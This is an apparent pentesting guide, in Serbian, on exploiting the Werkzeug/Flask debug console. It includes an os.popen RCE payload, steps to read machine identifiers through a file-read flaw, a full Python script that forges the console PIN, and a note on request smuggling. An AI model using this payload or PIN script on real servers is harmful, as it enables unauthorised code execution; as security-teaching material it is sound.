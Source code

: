 # Werkzeug / Flask Debug

{{#include ../../banners/hacktricks-training.md}}


## Console RCE

Ako je debug aktivan, možete pokušati da pristupite `/console` i dobijete RCE.
```python
__import__('os').popen('whoami').read();
```
![](<../../images/image (117).png>)

Takođe postoji nekoliko eksploita na internetu kao što je [ovaj](https://github.com/its-arun/Werkzeug-Debug-RCE) ili jedan u metasploit-u.

## Zaštićeno PIN-om - Putanja Traversal

U nekim slučajevima, **`/console`** krajnja tačka će biti zaštićena PIN-om. Ako imate **ranjivost u pretrazi datoteka**, možete otkriti sve potrebne informacije za generisanje tog PIN-a.

### Werkzeug Console PIN Eksploit

Prisilite stranicu sa greškom za debagovanje u aplikaciji da biste videli ovo:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
Poruka u vezi sa scenarijom "konzola zaključana" se pojavljuje kada se pokušava pristupiti Werkzeug-ovom debug interfejsu, što ukazuje na potrebu za PIN-om za otključavanje konzole. Predlaže se da se iskoristi konzolni PIN analizom algoritma za generisanje PIN-a u Werkzeug-ovom inicijalizacionom fajlu (`__init__.py`). Mehanizam generisanja PIN-a može se proučiti iz [**Werkzeug source code repository**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/__init__.py), iako se savetuje da se pribavi stvarni kod servera putem ranjivosti u pretraživanju fajlova zbog mogućih razlika u verzijama.

Da bi se iskoristio konzolni PIN, potrebna su dva skupa varijabli, `probably_public_bits` i `private_bits`:

#### **`probably_public_bits`**

- **`username`**: Odnosi se na korisnika koji je pokrenuo Flask sesiju.
- **`modname`**: Obično označen kao `flask.app`.
- **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Obično se rešava u **Flask**.
- **`getattr(mod, '__file__', None)`**: Predstavlja punu putanju do `app.py` unutar Flask direktorijuma (npr., `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Ako `app.py` nije primenljiv, **probajte `app.pyc`**.

#### **`private_bits`**

- **`uuid.getnode()`**: Dohvata MAC adresu trenutne mašine, pri čemu `str(uuid.getnode())` prevodi u decimalni format.

- Da bi se **odredila MAC adresa servera**, potrebno je identifikovati aktivni mrežni interfejs koji koristi aplikacija (npr., `ens3`). U slučajevima nesigurnosti, **procurite `/proc/net/arp`** da biste pronašli ID uređaja, zatim **izvucite MAC adresu** iz **`/sys/class/net/<device id>/address`**.
- Konverzija heksadecimalne MAC adrese u decimalnu može se izvršiti kao što je prikazano u nastavku:

```python
# Primer MAC adrese: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```

- **`get_machine_id()`**: Spaja podatke iz `/etc/machine-id` ili `/proc/sys/kernel/random/boot_id` sa prvom linijom `/proc/self/cgroup` posle poslednjeg kosa (`/`).

<details>

<summary>Kod za `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Kada se prikupe svi potrebni podaci, eksploatacijski skript se može izvršiti da generiše Werkzeug konzolni PIN:

Kada se prikupe svi potrebni podaci, eksploatacijski skript se može izvršiti da generiše Werkzeug konzolni PIN. Skript koristi sastavljene `probably_public_bits` i `private_bits` da kreira hash, koji zatim prolazi kroz dalju obradu kako bi se dobio konačni PIN. Ispod je Python kod za izvršavanje ovog procesa:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Ovaj skript proizvodi PIN tako što hešira spojene bitove, dodaje specifične soli (`cookiesalt` i `pinsalt`), i formatira izlaz. Važno je napomenuti da se stvarne vrednosti za `probably_public_bits` i `private_bits` moraju tačno dobiti iz ciljanog sistema kako bi se osiguralo da generisani PIN odgovara onom koji očekuje Werkzeug konzola.

> [!TIP]
> Ako ste na **staroj verziji** Werkzeug-a, pokušajte da promenite **heš algoritam na md5** umesto sha1.

## Werkzeug Unicode karakteri

Kao što je primećeno u [**ovoj temi**](https://github.com/pallets/werkzeug/issues/2833), Werkzeug ne zatvara zahtev sa Unicode karakterima u header-ima. I kao što je objašnjeno u [**ovom izveštaju**](https://mizu.re/post/twisty-python), to može izazvati CL.0 Request Smuggling ranjivost.

To je zato što je u Werkzeug-u moguće poslati neke **Unicode** karaktere i to će uzrokovati **kvar** servera. Međutim, ako je HTTP veza kreirana sa header-om **`Connection: keep-alive`**, telo zahteva neće biti pročitano i veza će ostati otvorena, tako da će **telo** zahteva biti tretirano kao **sledeći HTTP zahtev**.

## Automatizovana Eksploatacija

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## Reference

- [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
- [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
- [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
- [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)


{{#include ../../banners/hacktricks-training.md}}

